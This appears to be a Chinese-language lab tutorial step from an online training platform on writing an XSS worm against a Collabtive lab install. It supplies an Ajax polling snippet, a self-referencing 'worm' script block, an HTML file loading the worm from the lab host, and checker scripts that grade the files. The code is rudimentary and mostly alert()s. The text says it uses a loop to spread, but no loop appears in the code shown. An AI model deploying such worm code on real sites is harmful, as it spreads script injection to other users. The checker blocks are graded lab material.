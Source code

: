 我们有一个test.js的文件；这个文件中是Ajax框架代码，我们可以使用下面的命令查看一下：

```
sudo vim test.js
```

![3.5-1](https://doc.shiyanlou.com/document-uid600404labid882timestamp1524811043155.png/wm)

然后我们再创建一个test1.js的文件，写一个xss蠕虫代码：

```
sudo vim test1.js
```

代码如下：

```
var on=new Ajax.PeriodicalUpdater("onlinelist",
"manageuser.php?action=onlinelist",
//定义一个新的Ajax.PeriodicalUpdater
{method:'get',onSuccess:function(transport){alert(transport.responseText);},
frequence:1000}
//请求方式为get，频率为1000
```

上面的蠕虫代码不能够进行自动传播，这样达不到我们的需求；我们需要编写一个可以自动传播的xss蠕虫病毒的脚本，下面这段代码可以使蠕虫自动传播：

```
<script id=worm>//定义js的id为worm
var strCode = document.getElementById("worm");
//找到元素id
alert(strCode.innerHTML);
</script>
```

代码中使用循环体，从而达到自动传播的目的，具体操作如下：

在环境中这样创建xss蠕虫：

```
sudo vim xss_worm.js
```

代码如下：
```
var strCode = document.getElementById("worm");
alert(strCode.innerHTML);
```

然后用一个html文件调用蠕虫：

```
sudo vim worm.html
```
代码如下：
```
<script type='text/javascript' src='http://www.xsslabcollabtive.com/xss_worm.js'></script>
```


```checker
- name: check test1.js
  script: |
    #!/bin/bash
    file_name="/var/www/XSS/Collabtive/test1.js"
    ls $file_name
    grep Ajax $file_name
  error: test1.js不存在或者文件内容不对
- name: check xss_worm
  script: |
    #!/bin/bash
    file_name="/var/www/XSS/Collabtive/xss_worm.js"
    ls $file_name
    grep getElementById $file_name
```
